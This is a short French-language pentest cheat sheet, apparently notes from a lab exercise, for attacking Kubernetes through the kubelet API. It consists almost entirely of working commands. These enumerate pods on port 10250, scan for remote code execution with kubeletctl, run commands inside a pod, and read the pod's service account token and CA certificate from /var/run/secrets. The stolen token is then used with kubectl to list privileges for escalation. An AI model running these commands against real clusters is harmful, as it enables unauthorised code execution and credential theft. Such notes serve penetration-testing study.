 ```shell
curl https://<ip_k8s>:6443 -k
```

## API Pods extraction

> [!TIP]
> Enumère les names, namespaces, creation timestamps et container images des pods + dernière configuration appliqué qui peut contenir des details confidentiels

```shell-session
curl https://<ip_k8s>:10250/pods -k | jq .
```

## Kubeletctl - Extracting Pods

```shell
kubeletctl -i --server 10.129.10.11 pods
```

## Kubelet API - Available Commands

```shell
kubeletctl -i --server 10.129.10.11 scan rce
```

## Kubelet API - Executing Commands

```shell
kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx
```

## Kubeletctl - PRIVESC

1. Extraire token et certificats

```bash
kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```

```sh
kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```

2. Lister les privilèges

```sh
export token=`cat k8.token`
```

```sh
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
```
